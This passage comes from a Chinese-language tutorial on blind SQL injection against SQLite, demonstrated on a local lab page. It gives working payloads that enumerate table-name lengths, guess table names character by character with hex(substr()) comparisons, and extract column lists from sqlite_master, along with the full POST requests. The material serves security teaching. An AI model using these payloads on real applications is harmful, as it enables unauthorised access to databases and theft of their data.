 通过fuzz，我们可以得到表名的长度，然后接着猜解下一个表名的长度，只需要增加limit和offset的值即可：

```
and (SELECT length(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 2 offset 1) = table_name_length_number
```

其余的payload则保持一致。接着，我们将通过如下payload猜解表名，在该payload中，我们将使用hex值来与表名中的字符进行对照。

```
and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) &gt; hex('some_char')
```

该payload提取表名然后提取其中字符，将其转换为hex表示，再跟我们猜测的值进行对比。hex(substr(name,1,1))函数从指定位置提取表名中的一个字符。在上述代码中，substr函数从位置1提取一个字符，再将其转换为hex形式。如果是hex(substr(name,3,1))则表示从第3位开始，截取一个字符。在payload最后，hex('some_char')是我们需要猜测的指定表名字符，hex函数将会将其转换为hex值，这将会让我们的注入更加快速一些。

一旦我们得到表名的第一个字符后，我们将继续猜解第二个字符，为了猜解下一个字符，我们需要改变sbustr函数中代表字符所在位置的数字。即hex(substr(name,1,1))中将1,1改为2，1，接着，我们再进行相同的步骤直到猜解完毕。

让我们来看看具体情况，首先我们将猜解表名第一个字母是否大于'a'：

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) &gt; hex('a')-- -&amp;search=Check+Plan
```

[![](./img/85552/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d1992180c85bd67e.png)

页面响应与未被注入时一致，这意味着表名的第一个字符大于'a'，在第二次测试中，我们尝试字符k，即测试表名第一个字符是否大于字母'k'，因此，请求长这样：

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) &gt; hex('k')-- -&amp;search=Check+Plan
```

现在，页面响应与之前普通页面不一致了，即说明表名第一个字符不大于字母k。因此，通过上面两个请求，我们得出表名第一个字符在'a'和'k'之间。在多次尝试后，我们就可以将范围缩到两个前后为同一个字符，这时我们使用=来判断：

```
http://127.0.0.1/sqlite-lab/index.php
POST body data
tag=ubuntu' and (SELECT hex(substr(tbl_name,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) = hex('i')-- -&amp;search=Check+Plan
```

以上就是通过fuzz猜解表名的过程，为了继续猜解下一个字符，只需要将hex(substr(name,1,1))中的1，1改为2，1即可，其余不变，然后就继续猜解直到完全猜解出来为止吧。

**猜解列名**

为了猜解列名，我们将会使用如下payload来获取列名列表：

```
replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(substr((substr(sql,instr(sql,'(')%2b1)),instr((substr(sql,instr(sql,'(')%2b1)),'`')),"TEXT",''),"INTEGER",''),"AUTOINCREMENT",''),"PRIMARY KEY",''),"UNIQUE",''),"NUMERIC",''),"REAL",''),"BLOB",''),"NOT NULL",''),",",'~~'),"`","")
```
